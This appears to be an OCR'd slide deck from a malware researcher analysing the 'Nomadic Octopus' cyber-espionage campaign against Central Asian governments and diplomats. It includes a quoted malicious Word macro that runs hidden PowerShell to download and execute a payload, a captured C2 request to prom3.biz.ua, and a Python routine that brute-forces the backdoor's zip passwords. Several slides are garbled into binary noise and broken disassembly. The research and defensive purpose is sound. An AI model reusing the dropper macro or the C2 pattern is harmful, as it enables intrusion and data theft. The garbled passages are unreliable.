










ese ENJOY SAFER TECHNOLOGY"

# Nomadic Octopus

Cyber espionage in Central Asia

Anton Cherepanov | Senior Malware Researcher



### Discovery: spearphishing email




### Decoy document




|  | News | Images | Videos | Shopping | More | Settings | Tools |
| --- | --- | --- | --- | --- | --- | --- | --- |
| All |  |  |  |  |  |  |  |

About 100 results (0.41 seconds)

#### Kazakhstan - Executive Summary - export.gov

####  ▼

Sep 20, 2017 - Kazakhstan has made significant progress toward creating a market economy since it gained independence in 1991, and has achieved ...

#### ₪ºF] Executive Summary Kazakhstan has made significant progress towa...  ▼

Kazakhstan has made significant progress toward creating a market economy since it gained independence in 1991, and has achieved considerable results in its efforts to attract foreign investment. ... The government maintains a dialogue with international investors and is committed to improving the

investment climate.

#### Cable: 07ASTANA173 a - WikiLeaks

####  a.html ▼

Openness to Foreign Investment toward creating a market economy since its independence in ...


### Malicious Macro

```
Sub ihhumm()
Dim cmd
If Application.Documents.Count > 0 Then
cmd = "cmd.exe /c "PowerShell.exe -ExecutionPolicy Bypass -NoProfile -
     WindowStyle Hidden (New-Object System.Net.WebClient),DownloadFile('
     
     Process "%APPDATA%.exe"""
Shell cmd, False
End If
End Sub
Sub AutoOpen()
ihhumm
End Sub
```


### Timeline

- First detection in 2015
- Email December 2016
- •PHDays 2017
- Virus Bulletin 2018


# Spreading

рафик отпусков сотрудников август-декабрь 2018 года.ехе информационное сообщение за 12 апреля 2018 года.ехе Информационное сообщение от 09 октября 2015 года.ехе


flashplayer 20pp_da_in stall.exe



# Spreading



### The malware: Delphi





### The malware: internal name and version

nvew d øde moter din viss ifæri mind i univ isifil i ukje ifrig (jørfej i virje 1*1 →‎ ‎ E>hnÉN ìEº ® 0=♣ (eW½± δδ_^[YY] | +iriCHO==+ ■01ª=H Φ§> i=j j j iKD|XAN i|Φ3@· j j j iK@|hAN i|02?·htAN iE ï|0]>· ìE=Ph¼EN uªhªÆΝ ìE∞│♥ Φº+± ïE∞ï╬3πΦτό ïƒΦ�ú± ìEΣΦΗ: μΣ s@hêÆΜ η=ΑΝ ΙΕΣ| • Ο Φώω |Θο-+ δδ ^[ίο] - 0 1 נורני 1 ₪ 1 ₪ ₪ 1 ₪ 1 ₪ 1 ₪ 1 ₪ 1 ₪ 1 ₪ 1 ₪ 1 ₪ 1 1 ₪ 1 1 ₪ 1 1 ₪ 1 ÌU=ï├ïß QLIE═║PöN Φél± u→ï¼ΟΊ± hØս ΦGR≥ ï├Φ4 δ¶ϊ|ΦCí± Vh╨ÅΝ ï¦ΦεΙ≤ 3-ΣΥ § Φςν iPON IF® <+@ df@ ►B@ af@ at@ at@ #10 \u0 \u0 \u0 \u0 \u0 \u0 \u0 \ \u0 1 \ \ \ \


### The malware: internal name and version

| ANEW A ROG ZIP ON OR ON 22 T 4 MATEU I OKA I OKA- I AT TO OMI-AN I MI-i I-1 |  |  |
| --- | --- | --- |
| ¼Ó ï Øæ÷ Pj j ïƒð½-> Øæ¯≤ PØr ± ï¹·ï¦ï© QDIEº®½- u° w@h æΝ 죺║♥ û┐± ë►hnÉN ìEº  ● ++iniCH0=  ± █01"={  φ§> ï=j j j їKD  XEN ї ф↕@. ј ј ј їК@  ћ/8Ν ї Φ2? ht/AN iE |  |  |
| CODE:004E1865 | lea | eax, [ebp+var_C] |
| CODE : 004E1868 | mov | edx, offset   str 3 1 1.Text |
| CODE : 004E186D | call | @System(@@LStrCat$ggrv |
| CODE:004E1872 | mov | eax   ehn+var 4    Str 3         QQ 0rrFFFFFF |
| CODE:004E1875 | mov | edx, [ebp+var_C] |
| CODE:004E1878 | call | dd 5 @System@@LStrAsg$c |
| CODE:004E187D eax, eax | xor | db '3.1.1',0 |
| FöN If@ <{@ `d® �d® ►E@ αf® αt® ۩۞۩ ׳™Թ ΦτԹ `Α = Α `x® �x® Φ=@ ٢٠٠٥ Ι ׳� ג |  |  |

### The malware: functionality

#004E5194 TForm1.FormCreate #004E5208 TForm1.Timer1Timer #004E58C0 TForm1.CheckServerTimer #004E3F88 TForm1.GetPrintScreen #004E4060 TForm1.PrintScreen off #004E408C TForm1.GetCamScreen #004E49D8 TForm1.GetDirList #004E4AC0 TForm1.DirList off #004E4AEC TForm1.GetDownLoad #004E4BEC TForm1.DownLoad off #004E4C18 TForm1.GetDownLoad2 #004E4D18 TForm1.DownLoad2 off #004E4D44 TForm1.GetUpLoad #004E4E2C TForm1.UpLoad off #004E4E58 TForm1.GetRunFile #004E4F40 TForm1.RunFile off #004E4F6C TForm1.GetCMDQuery #004E5054 TForm1.CMDQuery off #004E5080 TForm1.GetUpLoadFiles #004E5168 TForm1.UpLoadFiles off #004E3BF0 TForm1.DelTmp #004E608C TForm1.Timer2Timer


### The malware: network communication

POST /include/systm.php HTTP/1.0 Connection: keep-alive Content-Type: application/x-www-form-urlencoded Content-Length: 146 Host: prom3.biz.ua Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 Accept-Encoding: identity User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:23.0) Gecko/20100101 Firefox/23.0

CLIENT=end&SessionTime=1465461066&ID=7fbba9a35518f24382 &cq=1&Data=6E63202D6 820666F722068656C703A204E4F5F444154412020202020202020202020000AHTTP/1.1 200 OK Server: nginx admin Date: Thu, 09 Jun 2016 08:31:35 GMT Content-Type: text/html Content-Length: 3 Connection: keep-alive Keep-Alive: timeout=35 X-Powered-By: PHP/5.3.28

. . .

### Exfiltration websites

# File sharing hosting:

- • (defunct)
- 

| Программа для закачки файлов   FAQ   Новости регистрация вход |  | Сайт продаётся Предложение о покупке высылайте на электронную почту. |
| --- | --- | --- |
| Загрузить файл | Скачать файлы | Оставить мнение |
| Полезное: программа для закачки | ТОП музыкальных файлов |  |
| Загрузить свой файл |  |  |
| В форме приведенной ниже нажинге кнопку обзор и выберите файл который вы хотите разместить у нас. После загрузки вы получите ссылку для скачивания. |  |  |
| Все изображения, за исключением запароленых, загружаются на фотохостииг fotolink.su! |  |  |
| Выберите файл (МАХ 2000mb): Browse ... | No file selected. | ■ Согласен с правилами сервиса |
| Описание |  |  |
| Ваш е-mail |  | Загрузить |
| Пароль к файлу |  |  |
| Чтобы скрыть файл от посторонних, укажите пароль! Он будет выслан на e-mail, если заполните это поле. |  |  |




### The malware: data compression

| CODE:004E46CE | lea | edx, [ebp+str_password] |
| --- | --- | --- |
| CODE:004E46D1 | mov | eax, 32 |
| CODE:004E46D6 | call | generate password |
| CODE : 004E46DB | mov | edx, [ebp+str_password] |
| CODE : 004E46DE | mov | eax, offset str generated password |
| CODE:004E46E3 | call | @System@@LStrAsg$qgrpvpxv ; System :: linkproc LStrAsg(void * , void * ) |
| CODE:004E46E8 | mov | edx, ds:str generated_password |
| CODE:004E46EE | mov | eax, esi |
| CODE:004E46F0 | call | TAbZipper SetPassword |
| CODE:004E46F5 | mov | eax, esi |

#### Abbrevia: Advanced data compression toolkit

# TurboPower Abbrevia

Abbrevia is a compression toolkit for Embarcadero Delphi, C++ Builder, and Kylix, and FreePascal. It supports PKZip, Microsoft CAB, tar, gzip, bzip2 and zlib compression formats, and the creation of self-extracting executables. It includes several visual components that simplify displaying zip files.

### The malware: naming scheme

#### SessionTime is used as filename:

```
call
        get temp path
        [ebp+var 18]
push
        dword ptr [ebx+40h]
push
        offset str tmp.Text ; . tmp
push
        eax, [ebp+var 14]
lea
        edx, 3
mov
        @System@@LStrCatN$qgrv ; System :: linkproc _ LStrCatN(void)
call
        eax, [ebp+var_14]
mov
push
        eax
        eax, [ebp+var 20]
lea
        get temp path
call
        [ebp+var 20]
push
        dword ptr [ebx+40h]
push
        offset _str_ zip. Text ; . zip
push
        eax, [ebp+var_1C]
lea
        edx. 3
mov
        @System@@LStrCatN$qqrv ; System :: _linkproc_____LStrCatN(void)
call
        eax, [ebp+var_1C]
mov
        edx
pop
        @Sysutils@RenameFile$qqrx17System@AnsiStringt1 ; Sysutils::RenameFile
call
```
10/04/2018 @ 3:00pm (UTC) – 1538665200.tmp 10/04/2018 @ 3:30am (UTC) – 1538623800.tmp

# Fayloobmennik.net

Найти файл по имени: | tmp

Найти

#### 1 2 3 4 ... 9

| Файл | Размер | Последний раз скачивали | Кол-во скачивании |
| --- | --- | --- | --- |
| 1486641268.tmp | 60.63 MB | 10/02/2017 06:28 | T |
| 1486641247.tmp | 32.69 MB | 10/02/2017 06:24 | 1 |
| 1486638331.tmp | 48.58 MB | 10/02/2017 06:26 | 1 |
| 1486406429.tmp | 119.95 MB | 08/02/2017 05:58 | 2 |
| 1486406425.tmp | 48.92 MB | 08/02/2017 05:55 | 2 |
| 1486373457.tmp | 5.30 MB | 08/02/2017 05:54 | 2 |
| 1486036443.tmp | 55.04 MB | 02/02/2017 16:42 | 2 |
| 1486036395.tmp | 61.38 MB | 02/02/2017 16:43 | 2 |
| 1485776946.tmp | 73.45 MB | 31/01/2017 11:56 | 2 |
| 1485776950.tmp | 12.52 MB | 31/01/2017 11:54 | 2 |
| 1485431843.tmp | 116.90 MB | 26/01/2017 17:26 | 2 |
| 1485431892.tmp | 19.36 MB | 26/01/2017 17:24 | 2 |
| ( 40 ( 7 ( 7 ) 0 ) ( ) ( ) ) ) | DE C7 MD | 04/01/2017 00.00 | 0 |

### Exfiltration data

- First file: 1457893802.tmp GMT: 13 Mar 2016 18:30
- Biggest file ~770 Mb
- Total 280 archives (~16Gb of compressed data)
- Mostly documents:
	- doc, docx, xls, xlsx, rtf, txt, pdf, jpg


# Upload dates: Weekdays



# Upload dates: Hours (GMT)



# Suspected timezones

#### UTC+5

- Eastern Europe
	- Russia Yekaterinburg Time

#### Central Asia [edit]

- · Kazakhstan (western part) Time in Kazakhstan
	- Aktobe Region, Atyrau Region, Mangystau Region, West Kazakhstan Region
- Tajikistan Time in Tajikistan
- Turkmenistan Time in Turkmenistan
- Uzbekistan Time in Uzbekistan

#### South Asia [edit]

- < Maldives Time in the Maldives
- Pakistan Pakistan Standard Time

#### Antarctica [edit]

- · Some bases in Antarctica. See also Time in Antarctica.


#### UTC+6

North Asia [edit]

- Russia Omsk Time
#### Central Asia [edit]

- · Kazakhstan Time in Kazakhstan
	- · most of country (including Astana and Almaty)
- · Kyrgyzstan Kyrgyzstan Time

#### South Asia [edit]

- Bangladesh Bangladesh Standard Time
- Bhutan Bhutan Time
- · British Indian Ocean Territory
	- · including Chagos Archipelago and Diego Garcia

# Victims

| 0z |  |  |  |  | fayloobmennik\1478097739.tmp\ |  |  | × |
| --- | --- | --- | --- | --- | --- | --- | --- | --- |
| File Edit View Favorites Tools Help |  |  |  |  |  |  |  |  |
| ​​​ |  | 3 00 |  | × | រី |  |  |  |
| Add | Extract | Test | Copy Move Delete |  | Info |  |  |  |
| 在 |  |  |  |  | fayloobmennik\147809739.tmp\ |  |  |  |
| Name |  |  |  | Size | Packed Size Modified | Encrypted Method |  |  |
|  |  | gov.kg.pst |  | 16 524 288 | 6 671 646 2016-11-01 17:26 |  | + ZipCrypto Deflate |  |
| < |  |  |  |  |  |  |  | > |
| 0 / 1 object(s) selected |  |  |  |  |  |  |  |  |

ES ET ENJOY SAFER TECHNOLOGY"

# Victims

|  |  |  |  |  | === Sign in |
| --- | --- | --- | --- | --- | --- |
| Translate |  |  |  |  | Turn off instant translation |
| Persian English Spanish | Persian - detected | ▼ 1 | ক English Spanish Arabic | Translate |  |
| × |  |  |  | Embassy of Islamic republic of Iran |  |
| 0 |  | 25/5000 | ☆ □ り く |  |  |
|  |  | 15 059 | 12 252 2016-12-21 19:04 |  | + ZipCrypto Deflate |
|  | 0 100. 6 ستنده | 13 232 | 10 666 2016-12-06 09:45 |  | + ZipCrypto Deflate |
|  | Mr.docx | 10 307 | 7 704 2016-12-20 18:36 |  | + ZipCrypto Deflate |
| esiet ENJOY SAFER V |  |  |  |  | > |

# Nomadic Octopus: Victimology

- Political blogger from Kazakhstan
- Local governments
- Diplomatic missions in Central Asia


# Malicious Tools

| Zz D: |  |  |  |  | fayloobmennik\1465469427.tmp\ |  | × |
| --- | --- | --- | --- | --- | --- | --- | --- |
| File Edit View Favorites Tools |  |  | Help |  |  |  |  |
|  |  |  |  | 23 | i |  |  |
| Add | Extract | Test Copy | Move Delete |  | Info |  |  |
| 2 | D:V |  |  |  | ayloobmennik\1465469427.tmp\ |  |  |
| Name |  |  |  | Size | Packed Size Modified | Encrypted Method |  |
| 12-26-54 |  | 09-06-2016.pcap |  | 6 291 157 | 3 291 204 2016-06-09 13:37 |  | + ZipCrypto Deflate |
| 11-07-14 1 246 2 |  | 09-06-2016.pcap |  | 3 031 006 | 1 752 541 2016-06-09 11:33 |  | + ZipCrypto Deflate |
|  |  |  |  |  |  |  | > |
| 0 / 2 object(s) selected |  |  |  |  |  |  |  |


# Password generation algorithm

| ● CODE:004E1417 | call | @System@Randomize$qqrv ; System::Randomize(void) |
| --- | --- | --- |
| CODE:004E141C | Tea | eax,  eop+var 4 |
| CODE:004E141F | mov | edx, offset_str_abcdefghijklmno_2.Text ; abcdefghijklmnopqrstuvwxyzABCDEF |
| CODE:004E1424 | call | @System@@LStrLAsg$qgrpvpxv ; System :: linkproc LStrLAsg(void *,void *) |
| CODE:004E1429 | mov | eax, ebx |
| CODE:004E142B | call | @System@@LStrClr$qqrpv ; System ::__linkproc____LStrClr(void *) |
| CODE:004E1430 |  |  |
| CODE:004E1430 loc 4E1430: |  | ; CODE XREF: generate password+62↓j |
| CODE:004E1430 | mov | eax, [ebp+var 4] |
| CODE:004E1433 | call | IIStrl en ; BDS 2005-2007 and Delphi6-7 Visual Component Library |
| CODE:004E1438 | call | Random ; BDS 2005-2007 and Delphi6-7 Visual Component Library |
| CODE:004E143D | mov | edx.  ebp+var 4 |
| CODE:004E1440 | mov | dl, [edx+eax] |
| CODE:004E1443 | lea | eax, [ebp+var 8] |
| CODE:004E1446 | call | UStrFromWChar ; BDS 2005-2007 and Delphi6-7 Visual Component Library |
| CODE:004E144B | mov | edx, [ebp+var 8] |
| CODE:004E144E | mov | eax, ebx |
| CODE:004E1450 | call | @System@@LStrCat$qqrv ; System :: linkproc LStrCat(void) |
| CODE : 004E1455 | mov | eax, [ebx] |
| CODE:004E1457 | call | UStrLen ; BDS 2005-2007 and Delphi6-7 Visual Component Library |
| CODE:004E145C | cmp | esi, eax |
| CODE:004E145E | inz | short loc 4E1430 |

### @System@@LStrClr$garpv ; System :: linkproc LStrClr(void *) ; CODE XREF: generate_password+62↓j ; BDS 2005-2007 and Delphi6-7 Visual Component Library

ES EN ENJOY SAFER TECHNOLOGY"

# Delphi random implementation

; _DWORD _cdecl System :: Randomize() @System@Randomize$ggrv proc near

var 8= dword ptr -8

| add | esp, 0FFFFFFF8h |
| --- | --- |
| push = | esp |
| call | QueryPerformanceCounter |
| test | eax, eax |
| jz | short loc 402C44 |
| mov | eax, [esp+8+var 8] |
| mov | ds:seed, eax |
| pop | есх |
| pop | edx |
| retn |  |

#### loc_402C44:

| call | GetTickCount |
| --- | --- |
| mov | ds:seed, eax |
| pop | есх |
| pop | edx |
| retn |  |

| ES ET EN JOY SAFER TECHNOLOGY |
| --- |

@System@Randomize$qqrv endp

| Random proc near |  |
| --- | --- |
| ี |  |
| push | ebx |
| xor | ebx, ebx |
| imul | edx, ds:seed[ebx], 8088405h |
| inc | edx |
| mov | ds:seed[ebx], edx |
| mul | edx |
| mov | eax, edx |
| pop | ebx |
| retn |  |
| Random endp |  |

# Password generation routine

| 1 ▶ | * pass_gen.py |
| --- | --- |
|  | 1   alphabet = b'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLNMCPQRSTUMWXYZ1234567890!@#$½^&*()_+-=' |
| 2 |  |
|  | 3 for seed in range(0, 0xFFFFFFFFFF): |
| 4 | tmp seed = seed |
| ை | password = = |
|  | for i in range(0, 32): |
| 7 | tmp seed = ((tmp seed * 0x8088405) & Øxfffffffff) + 1 |
| 8 | char index = (((tmp seed * len(alphabet)) >> 32) & Øxffffffffffff) |
| 10 | password = password + chr(alphabet[char index]) |
| JT |  |
| 12 | print ('Seed: {0:08X} - {1:s}' format(seed, password)) |
| 13 |  |


### Tools

### Password: iM2d$xP(84Y!YV49uFO@kJm5O&2l5AFs

| ZZ D: |  |  |  |  | \1480567519.tmp\ |  |  |  |  | X |
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
| File View | Edit | Favorites | Tools | Help |  |  |  |  |  |  |
| Add | Extract | Copy l est | Move | Delete | រិ Info |  |  |  |  |  |
| Fir D: |  |  |  |  | \1480567519.tmp} |  |  |  |  |  |
| Name |  | Size | Packed Size |  | Modified | Encrypted   Method |  | Created | Accessed | Attribu |
